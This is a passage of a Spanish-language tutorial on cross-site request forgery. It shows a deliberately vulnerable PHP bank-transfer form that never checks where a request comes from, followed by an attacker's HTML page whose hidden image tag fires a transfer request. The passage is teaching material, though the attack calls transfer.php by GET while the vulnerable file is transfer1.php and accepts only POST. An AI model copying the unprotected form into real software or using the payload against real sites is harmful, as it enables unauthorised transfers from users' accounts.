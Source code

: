 Crear el archivo vulnerable: transfer1.php. Este archivo php está ubicado en la entidad bancaria online y nos permite realizar una transferencia.

~~~
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
$amount = $_POST["amount"];
echo "Transferidos $$amount";
}
?>
<form method="post">
<input type="number" name="amount">
<button type="submit">Transferir</button>
</form>
~~~

![](images/csrf1.png)

El código no verifica el origen de la solicitud y cualquier página externa puede enviar una petición maliciosa.

### Explotación de CSRF
---
El atacante crea un archivo malicioso (csrf_attack.html):

~~~
<!DOCTYPE html>
<html>
<body>
	<img src="http://localhost/transfer.php?amount=1000">
</body>
</html>
~~~

Este archivo no está ubicado en la web del banco sino que está ubicada en una web del atacante o alguna utilizada por él. 
Fíjate que el enlace a este archivo http puede haberse hecho llegar a través de cualquier medio: email, o haber sido falsificada.

Cuando el usuario autenticado accede a esta página:

![](images/csrf2.png)
